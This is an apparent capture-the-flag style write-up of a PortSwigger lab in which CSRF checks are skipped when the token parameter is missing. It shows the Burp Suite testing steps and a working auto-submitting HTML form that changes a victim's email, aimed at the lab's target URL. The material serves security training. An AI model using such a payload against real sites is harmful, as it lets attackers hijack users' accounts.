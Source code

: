 # Lab: CSRF where token validation depends on token being present

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> Note: My Login Credentials is `wiener:peter`

- Firstly, I'll login using my credentials `wiener:peter`
  ![1st Screenshot](./Photos/1.png)

- Then I'll change my email to `test@gmail.com`.
  ![2nd Screenshot](./Photos/2.png)

- When viewing the request in Burp Suite, I've noticed that he uses a CSRF Token in addition to Session Cookies to validate the user identity.
  ![3rd Screenshot](./Photos/3.png)

- I've tried to remove the CSRF Value and leave the parameter, but the response results in `400 Bad Request`
  ![4th Screenshot](./Photos/4.png)

- But when removing the csrf parameter and it's value, the request results in `302 Found`, therefore If I didn't send the csrf token at all he won't check it.
  ![5th Screenshot](./Photos/5.png)

- I'll craft a Payload according to the previous point.

- The Payload:

```html
<body>
  <form
    method="POST"
    action="https://0ab2008c04b8d30280610352007d005a.web-security-academy.net/my-account/change-email"
  >
    <input type="email" name="email" value="changed-email@test.com" hidden />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
```

- I'll host the previous payload on a Website I control (Portswigger Exploit Server in this case), and I'll induce the victim to visit the Web Page, and when the victim visits it his email will get changed to `changed-email@test.com`.

- Add The payload to Exploit Server then Deliver Exploit to victim.

- And Finally The Lab is solved.
  ![6th Screenshot](./Photos/6.png)

---
